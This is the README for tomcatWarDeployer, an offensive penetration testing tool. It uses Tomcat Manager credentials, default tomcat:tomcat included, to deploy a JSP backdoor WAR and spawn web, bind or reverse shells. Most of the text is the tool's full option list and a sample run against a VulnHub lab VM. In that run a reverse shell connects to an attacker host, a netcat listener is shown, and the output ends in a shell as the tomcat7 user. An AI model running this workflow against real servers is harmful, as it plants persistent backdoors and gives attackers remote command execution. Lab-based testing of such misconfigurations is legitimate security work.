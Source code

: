 ## tomcatWarDeployer
Apache Tomcat auto WAR deployment &amp; pwning penetration testing tool.

### What is it?
This is a penetration testing tool intended to leverage Apache Tomcat credentials in order to automatically generate and deploy JSP Backdoor, as well as invoke it afterwards and provide nice shell (either via web gui, listening port binded on remote machine or as a reverse tcp payload connecting back to the adversary). 

In practice, it generates JSP backdoor WAR package on-the-fly and deploys it at the Apache Tomcat Manager Application, using valid HTTP Authentication credentials that pentester provided (or custom ones, in the end, we all love *tomcat:tomcat* ). 

### Usage
As simple as providing server's address with port, as a IP:PORT pair. 
Here goes the help:

```
user$ python tomcatWarDeployer.py --help

Apache Tomcat 6/7 auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
Usage: tomcatWarDeployer.py [options] server

  server		Specifies server address. Please also include port after colon.

Options:
  -h, --help            show this help message and exit

  General options:
    -v, --verbose       Verbose mode.
    -s, --simulate      Simulate breach only, do not perform any offensive
                        actions.
    -G OUTFILE, --generate=OUTFILE
                        Generate JSP backdoor only and put it into specified
                        outfile path then exit. Do not perform any
                        connections, scannings, deployment and so on.
    -U USER, --user=USER
                        Tomcat Manager Web Application HTTP Auth username.
                        Default="tomcat"
    -P PASS, --pass=PASS
                        Tomcat Manager Web Application HTTP Auth password.
                        Default="tomcat"

  Connection options:
    -H RHOST, --host=RHOST
                        Remote host for reverse tcp payload connection. When
                        specified, RPORT must be specified too. Otherwise,
                        bind tcp payload will be deployed listening on 0.0.0.0
    -p PORT, --port=PORT
                        Remote port for the reverse tcp payload when used with
                        RHOST or Local port if no RHOST specified thus acting
                        as a Bind shell endpoint.
    -u URL, --url=URL   Apache Tomcat management console URL. Default:
                        /manager/

  Payload options:
    -R APPNAME, --remove=APPNAME
                        Remove deployed app with specified name. Can be used
                        for post-assessment cleaning
    -X PASSWORD, --shellpass=PASSWORD
                        Specifies authentication password for uploaded shell,
                        to prevent unauthenticated usage. Default: randomly
                        generated. Specify "None" to leave the shell
                        unauthenticated.
    -t TITLE, --title=TITLE
                        Specifies head>title for uploaded JSP WAR payload.
                        Default: "JSP Application"
    -n APPNAME, --name=APPNAME
                        Specifies JSP application name. Default: "jsp_app"
    -x, --unload        Unload existing JSP Application with the same name.
                        Default: no.
    -C, --noconnect     Do not connect to the spawned shell immediately. By
                        default this program will connect to the spawned
                        shell, specifying this option let's you use other
                        handlers like Metasploit, NetCat and so on.
    -f WARFILE, --file=WARFILE
                        Custom WAR file to deploy. By default the script will
                        generate own WAR file on-the-fly.
```


And sample usage on [Kevgir 1 VM by canyoupwn.me](https://www.vulnhub.com/entry/kevgir-1,137/) running at 192.168.56.100:8080 :


```
user$ python tomcatWarDeployer.py -C -x -v -H 192.168.56.101 -p 4545 -n shell 192.168.56.100:8080

    Apache Tomcat auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
INFO: Reverse shell will connect to: 192.168.56.101:4545.
DEBUG: Browsing to "http://192.168.56.100:8080/manager/"... Creds: tomcat:tomcat
DEBUG: Apache Tomcat Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Preparing additional code for Reverse TCP shell
DEBUG: Generating temporary structure for shell WAR at: "/tmp/tmpzndaGR"
DEBUG: Working with Java at version: 1.8.0_60
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/shell.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 541) (out= 254)(deflated 53%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 68) (out= 67)(deflated 1%)
adding: index.jsp(in = 4684) (out= 1597)(deflated 65%)
DEBUG: WAR file structure:
DEBUG: /tmp/tmpzndaGR
├── files
│   ├── META-INF
│   │   └── MANIFEST.MF
│   └── WEB-INF
│       └── web.xml
└── index.jsp

3 directories, 3 files
WARNING: Application with name: "shell" is already deployed.
DEBUG: Unloading existing one...
DEBUG: Unloading application: "http://192.168.56.100:8080/shell/"
DEBUG: Succeeded.
DEBUG: Deploying application: shell from file: "/tmp/shell.war"
DEBUG: Removing temporary WAR directory: "/tmp/tmpzndaGR"
DEBUG: Succeeded, invoking it...
DEBUG: Invoking application at url: "http://192.168.56.100:8080/shell/"
DEBUG: Adding 'X-Pass: b8vYQ9EU7suV' header for shell functionality authentication.
WARNING: Set up your incoming shell listener, I'm giving you 3 seconds.
INFO: JSP Backdoor up & running on http://192.168.56.100:8080/shell/
INFO: Happy pwning, here take that password for web shell: 'b8vYQ9EU7suV'
```

Which will result in the following JSP application accessible remotely via WEB:
![JSP backdoor gui](screen1.png)

As one can see, there is password needed for leveraging deployed backdoor, preventing thus unauthenticated access during conducted assessment.

Also, this particular example **performs reverse shell popping** by connecting here to the *192.168.56.101:4545*. 
There one can observe:

```
user $ nc -klvp 4545
listening on [any] 4545 ...
192.168.56.100: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.100] 44423
id
uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)
```

Summing up, user has spawned WEB application providing WEB backdoor, authenticated via POST 'password' parameter that can be specified by user or randomly generated by the program. Then, the application upon receiving *X-Pass* header in the invocation phase, spawned reverse connection to our *netcat* handler. The HTTP header is being requested here in order to prevent user refreshing WEB gui and keep trying to bind or reverse connect. Also this makes use of authentication to reach that code.

That would be all I guess. 

### TODO

* ~~Implement bind & reverse tcp payload functionality~~ as well as some pty to interact with it
* Finish implementing noconnect and connect functionality
* Test it on tomcat8


